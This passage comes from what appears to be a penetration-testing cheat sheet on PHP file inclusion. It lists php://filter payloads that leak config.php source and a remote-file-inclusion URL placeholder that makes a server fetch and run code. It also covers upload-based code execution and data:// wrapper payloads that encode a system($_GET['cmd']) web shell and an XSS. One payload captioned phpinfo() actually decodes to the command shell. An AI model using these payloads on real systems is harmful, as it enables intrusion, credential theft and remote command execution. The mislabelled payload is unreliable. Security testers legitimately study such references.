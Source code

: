 ```
# Base64 encoding
?page=php://filter/convert.base64-encode/resource=config.php
?page=php://filter/convert.base64-encode/resource=config.php%00

# rot13 encoding
?page=php://filter/read=string.rot13/resource=config.php
?page=php://filter/read=string.rot13/resource=config.php%00
```

### Remote Code Execution

###### Basic remote file inclusion

If a File Inclusion vulnerability can be used to include remote files, the
vulnerability could be leveraged to make the web application retrieve and
execute a remote script.

The included script must be in a language supported by the web application.
Refer to the `[General] Shell` note for web and reverse shell payloads.

```
?file=<URL_TO_SCRIPT>
```

###### File upload

If the web application exposes an upload functionality, the uploaded files
could be leveraged through a local file inclusion to execute code on the target.

If no filter restrict the uploaded files type, the uploaded files should be in a
language supported by the web application to achieve code execution.
Refer to the `[General] Shell` note for web and reverse shell payloads.

Multiples filters can however limit the files type accepted by the web
application
  - client-side restrictions using `JavaScript`, etc.
  - HTTP `Content-Type` verification   
  - file extension black or white listing

Knowledge of the uploaded files path could be needed in order to include the
files through the local file inclusion vulnerability if the upload directory is
different from the file inclusion vulnerability working directory. The upload
directory path may be leaked by the web application, usually in error messages
or in settings / configuration web pages.

Refer to the `[WebApps] File upload` note for more information on how to bypass
upload filters and retrieve the uploaded file path.

###### PHP wrappers

*data*

The PHP *data://* wrapper allows for the injection and execution of PHP code
given in parameter:

```
# <?php phpinfo(); ?>
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8%2B

# <?php system($_GET['cmd']); ?>
?page=data://text/plain;base64,PD8gcGhwIHN5c3RlbSgkX0dFVFsnY21kJ10pOyA%2fPg%3d%3d

# XSS (alert(1))
?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```
